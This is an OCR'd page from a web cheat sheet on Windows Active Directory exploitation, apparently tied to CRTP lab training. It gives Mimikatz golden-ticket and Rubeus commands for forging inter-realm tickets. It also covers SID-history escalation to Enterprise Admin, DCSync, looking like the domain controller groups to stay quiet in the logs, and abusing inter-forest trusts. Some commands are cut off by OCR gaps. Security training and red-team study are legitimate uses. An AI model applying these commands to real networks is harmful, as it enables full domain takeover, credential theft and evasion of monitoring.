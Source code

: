 kerberos::golden /domain:dollarcorp.moneycorp.local /sid

Pass with Rubeus
Make sure you have the right version of Rubeus For some
reason some of my compiled binaries were giving the error
KDC_ERR_WRONG_REALM while the CRTP provided version
worked without issue

.\Rubeus.exe asktgs /ticket:c:\ad\tools\mcorp-ticket.kir

We can now DCSync the target domain see below

Using krbtgt hash
From the DC dump the krbtgt hash using e g DCSync or
LSADump Then using this hash forge an inter realm TGT using
Mimikatz as with the previous method
Use a SID History /sids of *-516 and S-1-5-9 to disguise
as the Domain Controllers group and Enterprise Domain
Controllers respectively to be less noisy in the logs
kerberos::golden /domain:dollarcorp.moneycorp.local /sid

https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

17/31

If you are having issues creating this ticket try adding the
‘target’ flag e g /target:moneycorp.local
Alternatively generate a domain admin ticket with SID history of
EA group
kerberos::golden /user:Administrator
/domain:dollarcorp.moneycorp.local /sid:S-1-5-211874506631-3219952063-538504511
/krbtgt:ff46a9d8bd66c6efd77603da26796f35 /sids:S-1-5-21280534878-1496970234-700767426-519 /ptt

We can now immediately DCSync the target domain or get a
reverse shell using e g scheduled tasks

Abusing inter forest trust
Since a forest is a security boundary we can only access domain
services that have been shared with the domain we have
compromised our source domain Use e g BloodHound to look
for users that have an account with the same username in both
forests and try password re use Additionally we can use
PowerView to hunt for foreign group memberships between
forests
Get-DomainForeignGroupMember -domain corp2.com
In some cases it is possible that SID filtering the protection
causing the above is disabled between forests If you run GetDomainTrust and you see the TREAT_AS_EXTERNAL property this
is the case! In this case you can abuse the forest trust like a
domain trust as described above Note that you still can NOT
forge a ticket for any SID between
and
though so you
can’t become DA not even indirectly through group inheritance
In this case look for groups that grant e g local admin on the
domain controller or similar non domain privileges For more
information refer to this blog post
To impersonate a user from our source domain to access services
in a foreign domain we can do the following Extract inter forest
https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/
